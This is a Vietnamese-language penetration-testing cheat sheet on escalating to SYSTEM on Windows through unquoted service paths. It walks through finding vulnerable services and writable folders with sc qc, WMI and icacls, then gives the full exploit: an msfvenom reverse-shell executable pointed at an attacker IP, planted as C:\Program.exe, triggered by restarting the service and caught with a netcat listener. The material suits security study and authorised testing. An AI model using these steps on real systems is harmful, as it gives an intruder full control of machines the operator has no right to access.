 # Unquoted Service Paths

## Điểm chính khai thác

* Khai thác các dịch vụ Windows có đường dẫn file thực thi không được bao quanh bởi dấu ngoặc kép và chứa khoảng trắng để nâng quyền, tận dụng việc Windows phân tích sai các đoạn đường dẫn.
* Yêu cầu quyền ghi vào C:\ hoặc thư mục con (như C:\Program) để đặt file thực thi độc hại vào đoạn đường dẫn được ưu tiên.
* Dịch vụ chạy với quyền LocalSystem cung cấp đặc quyền SYSTEM nếu file thực thi độc hại được thực thi.
* Hiệu quả khi dịch vụ tự động khởi động hoặc có thể khởi động lại, nhưng cần kiểm tra quyền và CanRestart để đảm bảo kích hoạt.

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Xác định đường dẫn nhị phân của dịch vụ để kiểm tra xem có thiếu dấu ngoặc kép và chứa khoảng trắng:

```
sc qc <ServiceName>
```

Output mong đợi: Thông tin dịch vụ, ví dụ: `BINARY_PATH_NAME: C:\Program Files\Vuln App\vuln.exe, START_NAME: LocalSystem`

Liệt kê các dịch vụ để tìm đường dẫn không ngoặc kép chứa khoảng trắng:

```
Get-WmiObject Win32_Service | Select Name, PathName
```

Output mong đợi: Danh sách dịch vụ, ví dụ: `Name: vulnerableService, PathName: C:\Program Files\Vuln App\vuln.exe`

#### Kiểm tra quyền truy cập hoặc cấu hình

Kiểm tra quyền trên thư mục C:\ hoặc thư mục con để xác định khả năng ghi:

```
icacls C:\
```

Output mong đợi: Quyền thư mục, ví dụ: `BUILTIN\Users:(M)`

Kiểm tra quyền trên thư mục con cụ thể nếu cần:

```
icacls C:\Program
```

Output mong đợi: Quyền thư mục, ví dụ: `BUILTIN\Users:(F)`

#### Phân tích ngữ cảnh thực thi

Xác định hành vi thực thi dịch vụ để đảm bảo nhị phân độc hại sẽ được ưu tiên:

```
sc qc <ServiceName>
```

Output mong đợi: Xác nhận `START_TYPE: AUTO` hoặc `CanRestart: True`, ví dụ: `START_TYPE: AUTO`

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo reverse shell để đặt vào đoạn đường dẫn được ưu tiên:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=5555 -f exe -o Program.exe
```

Ghi chú: Đảm bảo kiến trúc payload khớp hệ thống (x64 cho 64-bit). Thay `<KALI_IP>` bằng IP attacker. Đặt tên `Program.exe` để khớp `C:\Program.exe`.

Sao lưu nhị phân gốc (nếu tồn tại) để tránh làm hỏng hệ thống:

```
copy C:\Program.exe C:\Program.exe.bak
```

Ghi chú: Chỉ thực hiện nếu `C:\Program.exe` đã tồn tại. Lưu bản sao ở vị trí an toàn.

#### Áp dụng khai thác

Triển khai nhị phân độc hại vào thư mục được ưu tiên:

```
copy Program.exe C:\
```

Ghi chú: Yêu cầu quyền Modify (M) hoặc Full (F) trên `C:\`. Kiểm tra bằng `icacls C:\` trước.

#### Kích hoạt khai thác

Khởi động lại dịch vụ để thực thi nhị phân độc hại:

```
sc stop <ServiceName>
sc start <ServiceName>
```

Ghi chú: Kiểm tra `CanRestart` bằng `sc qc <ServiceName>`. Nếu `CanRestart` là False, đợi reboot hoặc kiểm tra kích hoạt khác (như phụ thuộc dịch vụ).

Chờ kết nối reverse shell sau khi dịch vụ khởi động:

```
nc -lvnp 5555
```
